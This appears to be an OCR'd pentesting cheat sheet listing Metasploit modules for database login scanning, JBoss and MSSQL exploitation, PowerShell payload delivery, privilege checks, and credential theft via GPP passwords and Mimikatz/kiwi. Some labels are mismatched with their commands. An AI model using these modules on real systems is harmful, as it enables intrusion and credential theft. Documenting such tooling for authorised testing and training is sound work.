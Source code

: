 - Metasploit JBOSS vulnerability scanner

```bash
use auxiliary/scanner/mssql/mssql_login
```

- Metasploit MSSQL Credential Scanner

```bash
use auxiliary/scanner/mysql/mysql_version
```

- Metasploit MSSQL Version Scanner

```bash
use auxiliary/scanner/oracle/oracle_login
```

- Metasploit Oracle Login Module

```bash
use exploit/multi/script/web_delivery
```

- Metasploit powershell payload delivery module

```bash
post/windows/manage/powershell/exec_powershell
```

- Metasploit upload and run powershell script through a session

```bash
use exploit/multi/http/jboss_maindeployer
```

- Metasploit JBOSS deploy

```bash
use exploit/windows/mssql/mssql_payload
```

- Metasploit MSSQL payload

```bash
run post/windows/gather/win_privs
```

- Metasploit show privileges of current user

```bash
use post/windows/gather/credentials/gpp
```

- Metasploit grab GPP saved passwords

```bash
load kiwi
```

```bash
creds_all
```

- Metasploit load Mimikatz/kiwi and get creds
